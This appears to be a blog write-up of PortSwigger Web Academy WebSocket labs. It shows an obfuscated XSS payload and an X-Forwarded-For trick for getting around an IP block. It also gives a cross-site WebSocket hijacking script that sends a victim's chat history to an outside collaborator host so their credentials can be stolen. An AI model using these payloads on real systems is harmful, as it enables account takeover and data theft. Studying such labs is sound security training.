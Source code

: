 ```yaml
---
title: (Portswigger/WebAcademy) - Websockets
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2023-01-15 09:00:00 +0200
categories: [Web Application, Insecure Deserialization]
tags: [Notes, Insecure Deserialization, Portswigger]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Intro
This post/writeup is all about the insecure deserialization vulnerabilities.

I'll be using primarily [Portswigger Web Academy](https://portswigger.net/web-security/websockets) Labs, but i do intent do throw other labs and writeups here as well.

To learn more on the topic, please visit the article linked above at Portswigger's.

## TOC
- [Intro](#intro)
  - [TOC](#toc)
- [Manipulating WebSocket messages to exploit vulnerabilities](#manipulating-websocket-messages-to-exploit-vulnerabilities)
- [Cross-site WebSocket hijacking](#cross-site-websocket-hijacking)
- [Manipulating the WebSocket handshake to exploit vulnerabilities](#manipulating-the-websocket-handshake-to-exploit-vulnerabilities)


# Manipulating WebSocket messages to exploit vulnerabilities
> This online shop has a live chat feature implemented using WebSockets.
> 
> Chat messages that you submit are viewed by a support agent in real time.
> 
> To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser.

When opening the lab, there is a `Live chat` page. If we check the requests, we will notice that web sockets are being sent.

![picture 0](/assets/images/7fdf9dee5c2ebc1318cd4b526ceb610710783a8dc2ad286d4748a561600693bb.png)  

Problem is that sockets aren't being sanitized when being sent directly!

![picture 1](/assets/images/abfbb54b7e4e02660f81913f81c0eaccf19ad6dc9d805ae465e2eecacf864e7b.png)  

# Cross-site WebSocket hijacking
> This online shop has a live chat feature implemented using WebSockets.
> 
> To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account.

In this lab, there is a XSS filter blocking our IP when trying to inject XSS payloads.

![picture 2](/assets/images/3bcb26a33a20db325e30bf36555bc4e96531de3b6ccfc29af1aa85b14c87cfde.png)  

We can however circumvent the IP block by using `X-Forwarded-For` header and reconnect our client to the websocket server.

![picture 3](/assets/images/41bd22efe7333621845f61f85839fbb7a804df62e324a2a1567c26b51bc6bbfb.png)  

Working payload: 
```
<img src=1 oNeRrOr=alert`1`>
```

![picture 4](/assets/images/40c0c4ebb4dd2499807a868403c645486dd4de7469f82a7f5a891c86444c12fd.png)  

XSS fires on the `/chat` page.

# Manipulating the WebSocket handshake to exploit vulnerabilities
> This online shop has a live chat feature implemented using WebSockets.
> 
> It has an aggressive but flawed XSS filter.
> 
> To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser.

Read the [portswigger's](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking) article on cross-site websocket hijacking first, if not familiar with the attack. 


> Cross-site WebSocket hijacking (also known as cross-origin WebSocket hijacking) involves a cross-site request forgery (CSRF) vulnerability on a WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values. 
> 
> Source: https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking

By access `/chat`, websockets are sent without any CSRF protection.

```
GET /chat HTTP/2
Host: 0a6b00630481157482b6c4f7004e008f.web-security-academy.net
Connection: Upgrade
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Upgrade: websocket
Origin: https://0a6b00630481157482b6c4f7004e008f.web-security-academy.net
Sec-Websocket-Version: 13
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: session=6tzRfIhPXlNV1fZcX67LYDnFIwcJUP71
Sec-Websocket-Key: DyvNyiBfSYIGBxRpZJQHKQ==
```

Also by every subsequent chat message, CSRF is not being sent.

![picture 5](/assets/images/feb2b231eec8f60296f42fa60acdfde1a5680ce00545d6f55adf47a4930559e6.png)  

Consenquently, we can trick the victim to send it's messages to the same chat and exfiltrate the messages to the collaborator server.

```js
<script>
    var ws = new WebSocket('wss://0a5400fc03d9ed01817c750e00220084.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://b8kg1t8d2s3yfkrk5u9vjk5ktbz2n3bs.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

As seen below, we get messages that are being sent in the chat, by exploiting CSRF.

![picture 6](/assets/images/1ffe60e2f805c3765e914b2097a49858357fa6039640f22f09219a0a96df7120.png)  

Log in by using the stolen credentials to solve the lab.